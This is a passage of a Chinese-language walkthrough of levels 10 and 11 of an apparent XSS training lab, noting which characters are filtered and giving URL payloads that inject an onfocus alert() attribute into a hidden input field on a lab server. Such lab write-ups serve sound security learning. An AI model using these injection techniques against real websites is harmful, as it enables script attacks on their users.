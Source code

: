 输入到第三个发现1出现在了value里。

​![image](assets/image-20240913191637-vsapm30.png)​

?t_sort=1“> On hRef SCRipt  输入前面内容，>被过滤，不能使用标签闭合，大写转小写，但未被过滤。

​![image](assets/image-20240913191929-t4v2ubx.png)​

‍

47.113.187.190:50974/level10.php?t_sort=" onfocus=javascript:alert() type="display"

将input框display，点击。

​![image](assets/image-20240913192538-379hk7a.png)​

## level11

```bash
http://47.113.187.190:50974/level11.php?t_link=1&t_history=1&t_sort=" onfocus=javascript:alert() type="display"&t_ref=1
```
